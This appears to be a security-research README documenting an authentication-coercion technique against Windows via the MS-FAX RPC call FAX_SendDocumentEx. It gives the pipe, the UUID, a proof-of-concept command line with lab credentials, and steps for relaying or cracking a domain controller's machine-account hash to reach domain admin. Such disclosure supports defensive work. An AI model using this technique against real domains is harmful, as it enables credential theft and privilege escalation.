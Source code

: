 # MS-FAX - Remote call to FAX_SendDocumentEx (opnum 27)

## Summary

+ **Protocol**: [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4)

+ **Protocol UUID**: 6099fc12-3eff-11d0-abd0-00c04fd91a4e

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\SHAREDFAX`

+ **Function name**: [`FAX_SendDocumentEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/bac2e95f-f18b-448f-bb42-cc63b6ff04b2)

+ **Function operation number**: `27`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\SHAREDFAX` and bind to the desired [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol (with uuid `6099fc12-3eff-11d0-abd0-00c04fd91a4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\SHAREDFAX` This pipe is connected to the protocol [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) and allows to call RPC functions of this protocol. We will then call the remote [`FAX_SendDocumentEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/bac2e95f-f18b-448f-bb42-cc63b6ff04b2) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
FAX_SendDocumentEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t FAX_SendDocumentEx(
   [in] handle_t hBinding,
   [in, string, unique] LPCWSTR lpcwstrFileName,
   [in] LPCFAX_COVERPAGE_INFO_EXW lpcCoverPageInfo,
   [in] LPBYTE lpcSenderProfile,
   [in, range(0,FAX_MAX_RECIPIENTS)] 
     DWORD dwNumRecipients,
   [in, size_is(dwNumRecipients)] LPBYTE* lpcRecipientList,
   [in] LPCFAX_JOB_PARAM_EXW lpJobParams,
   [in, out, unique] LPDWORD lpdwJobId,
   [out] PDWORDLONG lpdwlMessageId,
   [out, size_is(dwNumRecipients)] 
     PDWORDLONG lpdwlRecipientMessageIds
 );
```

## References

+ Documentation of protocol [MS-FAX]: Fax Server and Client Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4

+ Documentation of function `FAX_SendDocumentEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/bac2e95f-f18b-448f-bb42-cc63b6ff04b2